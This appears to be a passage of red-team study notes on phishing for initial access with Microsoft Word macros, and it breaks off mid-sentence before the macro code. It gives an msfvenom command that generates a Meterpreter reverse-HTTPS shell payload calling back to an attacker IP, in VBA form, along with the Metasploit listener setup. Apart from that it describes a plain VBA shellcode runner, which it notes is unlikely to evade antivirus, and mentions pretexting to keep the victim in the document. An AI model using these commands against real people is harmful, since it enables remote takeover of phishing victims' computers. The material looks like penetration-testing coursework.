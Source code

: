 # Initial Access via Phishing

This is for Microsoft Office Word. We assume we are using meterpreter to catch the shell and we will be generating payloads according to the Windows Office version present on the victim. Generally x86 for Office 2016 and x64 for Office 2021/365

We start with the simplest payload which is to create a direct VBA shellcode runner with no obfuscation and then escalate accordingly with obfuscation, powershell and C# usage.

# The Simple Direct VBA Shellcode Runner

**Traits**
- As simple as it gets. All VBA with help from Win32APIs
- Unlikely to evade AV
- Dies the moment the victim closes Word. So you need to migrate to another process quick or you have some pretexting magic to keep the victim on the Word document


The malicious payload generated as such:

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.231 LPORT=443 EXITFUNC=thread -f vbapplication
```

Open Listener
```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set EXITFUNC thread
EXITFUNC => thread

```

Slot the below into a macro in a .doc file, and get the victim 